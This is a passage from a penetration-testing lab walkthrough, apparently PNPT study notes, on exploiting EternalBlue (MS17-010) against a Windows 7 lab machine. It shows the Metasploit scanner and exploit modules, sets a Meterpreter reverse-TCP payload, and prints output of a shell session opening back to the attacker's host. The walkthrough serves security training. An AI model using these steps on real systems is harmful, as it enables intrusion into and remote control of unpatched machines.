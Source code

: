 Set `RHOSTS` to our target using `set rhosts <target IP>`. Now we can type `run` to scan the target:
```bash
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.0.2.6:445          - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 10.0.2.6:445          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
### Exploit Module
Now that we've confirmed this box is vulnerable, let's use metasploit to exploit it. In `msfconsole`, search "eternalblue" again. This time, choose the windows exploit `exploit/windows/smb/smb_ms17_010`.

**TIP:** We've already verified that the target is vulnerable, but this exploit module can also check. If we use `options` we can see that `VERIFY_ARCH` & `VERIFY_TARGET` are set to true. To use this module to check, just type the command `check`.
#### Payload
When we loaded the module, we got the warning `[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp`. To make sure we have the right payload, we just have to use `set payload`.
##### Meterpreter
Using `set payload windows` and tab completing, we can get a list of all the possible payloads. Let's try using a meterpreter payload which is Metasploit's in-built shell:
```bash
set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```
### Exploit
After making sure all of our options are set how we want, type `run` and let metasploit do all the work. We know it's succeeded with a shell when we see the meterpreter prompt appear:
```bash
[+] 10.0.2.6:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.0.2.6:445 - Sending egg to corrupted connection.
[*] 10.0.2.6:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 10.0.2.6
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.6:49159) at 2023-10-07 15:56:30 -0400
[+] 10.0.2.6:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.2.6:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.2.6:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > whoami
[-] Unknown command: whoami
```
## Manual Exploitation
Instead of using Metasploit, we can find a way to use EternalBlue ourselves:
### Searchsploit
![](PNPT/PNPT-pics/blue-2.png)
![](/PNPT-pics/blue-2.png)
Let's go through out searchsploit/ exploit db flow again. Using `searchsploit` we can see that we have three options for exploit code; all three use [python](/coding/languages/python/python.md), all three are for Windows, but only 2 can exploit Windows 7 (our target).
